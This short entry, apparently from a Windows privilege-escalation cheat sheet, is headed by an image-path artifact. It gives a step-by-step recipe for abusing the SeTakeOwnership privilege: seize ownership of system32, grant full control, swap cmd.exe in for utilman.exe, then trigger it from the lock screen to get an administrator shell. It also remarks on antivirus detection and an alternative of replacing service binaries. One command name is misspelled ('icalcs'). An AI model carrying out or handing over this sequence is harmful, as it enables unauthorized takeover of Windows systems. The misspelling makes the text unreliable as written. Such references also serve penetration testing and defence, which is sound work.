 # SeTakeOwnership

Execution path: 1. takeown.exe /f "%windir%\system32"2. icalcs.exe "%windir%\system32" /grant "%username%":F3. Rename cmd.exe to utilman.exe4. Lock the console and press Win+U
Impact: Admin
Remarks: Attack may be detected by some AV software. Alternative method relies on replacing service binaries stored in “Program Files” using the same privilege.
Tool: Built-in commands